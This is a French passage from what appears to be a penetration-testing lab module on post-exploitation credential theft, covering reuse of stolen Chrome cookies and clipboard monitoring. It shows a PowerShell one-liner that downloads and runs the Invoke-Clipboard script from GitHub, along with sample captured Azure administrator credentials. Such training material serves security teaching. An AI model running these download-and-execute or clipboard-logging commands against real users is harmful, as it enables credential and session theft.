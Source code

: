 ```
[*] Extraction Google Chrome terminée.

[*] Fait.

```

Nous pouvons maintenant utiliser ce cookie avec cookie-editor comme nous l'avons fait avec Firefox.

Remarque : Lorsque vous copiez/collez le contenu d'un cookie, assurez-vous que la valeur est d'une ligne.

* * * * *

Presse-papiers
---------

Dans de nombreuses entreprises, les administrateurs réseau utilisent des gestionnaires de mots de passe pour stocker leurs informations d'identification et copier et coller les mots de passe dans les formulaires de connexion. Comme cela n'implique pas `taper` les mots de passe, la journalisation des frappes n'est pas efficace dans ce cas. Le `presse-papiers` donne accès à une quantité importante d'informations, telles que le collage d'informations d'identification et de jetons logiciels 2FA, ainsi que la possibilité d'interagir directement avec le presse-papiers de la session RDP.

Nous pouvons utiliser le script [Invoke-Clipboard](https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1) pour extraire les données du presse-papiers de l'utilisateur. Démarrez l'enregistreur en exécutant la commande ci-dessous.

#### Surveiller le presse-papiers avec PowerShell

Surveiller le presse-papiers avec PowerShell

```
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
PS C:\htb> Invoke-ClipboardLogger

```

Le script commencera à surveiller les entrées dans le presse-papiers et les présentera dans la session PowerShell. Nous devons être patients et attendre de capturer des informations sensibles.

#### Capturer les informations d'identification du presse-papiers avec Invoke-ClipboardLogger

Capturer les informations d'identification du presse-papiers avec Invoke-ClipboardLogger

```
PS C:\htb> Invoke-ClipboardLogger

https://portal.azure.com

Administrateur@quelquechose.com

Sup9rC0mpl2xPa$$ws0921lk

```
